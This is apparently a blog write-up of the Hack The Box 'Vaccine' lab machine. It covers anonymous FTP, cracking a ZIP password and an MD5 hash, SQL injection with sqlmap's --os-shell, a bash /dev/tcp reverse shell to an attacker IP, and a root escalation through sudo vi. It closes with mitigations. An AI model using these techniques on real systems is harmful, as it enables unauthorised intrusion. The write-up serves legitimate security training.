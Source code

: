+++
title = "Hack The Box - Vaccine"
date = 2025-05-30

[taxonomies]
tags = ["hackthebox", "starting point", "ftp", "sql", "sql injection", "reverse shell", "privesc"]
+++

[![TODO](/pictures/articles/htb/vaccine/00-cover.png)](https://www.hackthebox.com/achievement/machine/447801/289)

**Vaccine** is a Linux machine built to demonstrate the importance
of enumeration, and the dangers of chaining multiple vulnerabilities together
such as SQL injection, password hash cracking, anonymous guest access
and session cookie stealing.


<!-- more -->


# Enumeration

<!-- Enumeration {{{-->

The [nmap](https://nmap.org/) scan reveals the target machine has port 21
([FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol)),
port 22 ([SSH](https://en.wikipedia.org/wiki/Secure_Shell)), and
port 80 ([HTTP](https://en.wikipedia.org/wiki/HTTP)) open.

![a](/pictures/articles/htb/vaccine/01-nmap.png)

- `-sC`: Script scan
- `-sV`: Version detection

The webpage only presents a single login page which, for now, cannot be
bypassed.

![a](/pictures/articles/htb/vaccine/02-login.png)

There's also an FTP service running with the target machine that is allowing
anonymous login. The username should be `anonymous` and the corresponding
password is arbitrary.

![a](/pictures/articles/htb/vaccine/03-ftp-connect.png)

After logging in, the `dir` command can be used to list the available files.

There's only one file on the share, named `backup.zip`, which can be retrieved
using the `get backup.zip` command.

To exit the FTP session, issue the `exit` command.

![a](/pictures/articles/htb/vaccine/04-ftp-get.png)

`backup.zip` then needs to be extracted however, it is password-protected.

![a](/pictures/articles/htb/vaccine/05-unzip.png)

To crack the password, its hash needs to be extracted first from the encrypted
ZIP archive using `zip2john`.

![a](/pictures/articles/htb/vaccine/06-zip2john.png)

Then the extracted hash can be checked against the famous `rockyou` wordlist
using [John the Ripper](https://www.openwall.com/john/).

`john` shows that the password to unlock the ZIP is `741852963`.

![a](/pictures/articles/htb/vaccine/07-john-hashcrack.png)

The ZIP contains 2 files that can be investigated further.

![a](/pictures/articles/htb/vaccine/08-unzip.png)

[grep](https://en.wikipedia.org/wiki/Grep)ping `index.php` for `passw` reveals
a password hash stored for the `admin` user.

The found hash can be stored in a file for later use.

![a](/pictures/articles/htb/vaccine/09-pass-hash.png)

[hashID](https://psypanda.github.io/hashID/) confirms that it is indeed most
likely an [MD5](https://en.wikipedia.org/wiki/MD5) hash.

![a](/pictures/articles/htb/vaccine/10-hashid.png)

This hash can then be checked against the `rockyou` wordlist using `hashcat`.

![a](/pictures/articles/htb/vaccine/11-hashcat.png)

- `-a 0`: Dictionary attack mode
- `-m 0`: MD5 hash type

`hashcat` has cracked the hash and found the password `qwerty789`.

![a](/pictures/articles/htb/vaccine/12-hashcat-result.png)

It is now possible to log in to the website and enumerate its dashboard.

![a](/pictures/articles/htb/vaccine/13-login.png)

<!-- }}} -->

# Foothold

<!-- Foothold {{{-->

Upon running a search query, it reveals that the dashboard may actually be
connected with a backend database.

![a](/pictures/articles/htb/vaccine/14-test-query.png)

Intercepting the search query request with Burp Suite shows that there is a PHP
Session ID (`PHPSESSID`) being passed to the database in a form of a cookie.

![a](/pictures/articles/htb/vaccine/15-cookie.png)

The search query can be investigated with
[sqlmap](https://github.com/sqlmapproject/sqlmap) if it is SQL injectable.

![a](/pictures/articles/htb/vaccine/16-sqlmap.png)

- `u`: Target URL
- `--cookie`: HTTP header cookie value

`sqlmap` in its output displays multiple possible payloads to perform an
SQL injection.

To exploit the vulnerability, `sqlmap` should be called again but this time with
the additional `--os-shell` option to conclude in a shell.

![a](/pictures/articles/htb/vaccine/17-sqlmap-res.png)

The spawned `os-shell` is not so stable so it needs an additional payload
to make it work better.

To receive this incoming connection, a [netcat](https://en.wikipedia.org/wiki/Netcat)
should be set up listening an arbitrary port (e.g. `1234`).

![a](/pictures/articles/htb/vaccine/18-netcat.png)

The following Bash one-liner will initiate a connection from target back to the
attacker machine.

![a](/pictures/articles/htb/vaccine/19-payload.png)

- `bash`: Invoke a Bash shell
- `-c`: Execute the command that follows
- `bash -i`: Invoke another Bash shell instance
- `>&`: Redirect `stdout` and `stderr` to the specified location
- `/dev/tcp/10.10.15.127/1234`: Initiate a TCP connection to the specified
  address
- `0>&1`: Redirect `stdin` to `stdout`

The [netcat](https://en.wikipedia.org/wiki/Netcat)listener has successfully
received the connection resulting in a reverse shell.

![a](/pictures/articles/htb/vaccine/20-reverse-shell.png)

This shell isn't really stable either, it is disconnecting randomly, but it can
be utilized to look around on the system and retrieve the user flag.

![a](/pictures/articles/htb/vaccine/21-user-flag.png)

<!-- }}} -->

# Privilege escalation

<!-- Privilege escalation {{{-->

While exploring the web server's dedicated directories,
a password stored in clear text was discovered in a PHP file.

![a](/pictures/articles/htb/vaccine/22-user-password.png)

`sudo -l` shows that the current `postgres` user can launch `/bin/vi` as sudo to
edit a designated configuration file (`pg_hba.conf`).

![a](/pictures/articles/htb/vaccine/23-sudo-l.png)

According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)
there are multiple ways to break out from restricted environments by spawning an
interactive system shell.

One way is to open the configuration file with `vi` as `sudo`.

![a](/pictures/articles/htb/vaccine/24-vi-open.png)

Set the shell to `/bin/sh`.

![a](/pictures/articles/htb/vaccine/25-vi.png)

And then issue the `shell` command.

![a](/pictures/articles/htb/vaccine/26-vi.png)

After executing the commands, a `root` shell is spawned and the `root` flag can
be retrieved from the `/root` directory.

![a](/pictures/articles/htb/vaccine/27-root-flag.png)

By achieving root privileges, the machine is
[pwned](https://www.hackthebox.com/achievement/machine/447801/289).

<!-- }}} -->

# Mitigation

<!-- Mitigation {{{-->

1. Secure FTP Service
    - Disable anonymous logins and require authentication
    - Replace FTP with more secure protocols such as STFP

2. Web Application Security
    - Implement multi factor authentication mechanisms

3. SQL injection
    - Validate and sanitize all user inputs
    - Use prepared statements and parameterized queries to separate SQL code
    from data

4. Reverse Shell Prevention
    - Monitor and restrict outbound network traffic for patterns indicating
    reverse shell attacks

5. Sudo privileges
    - Implement the principle of least privilege when assigning sudo rights

6. Restrict configuration files
    - Ensure configuration files are accessible only for authorized users

7. Secure Shell Access
    - Restrict shell commands that can be executed
    - Monitor shell activity for suspicious behaviour

<!-- }}} -->
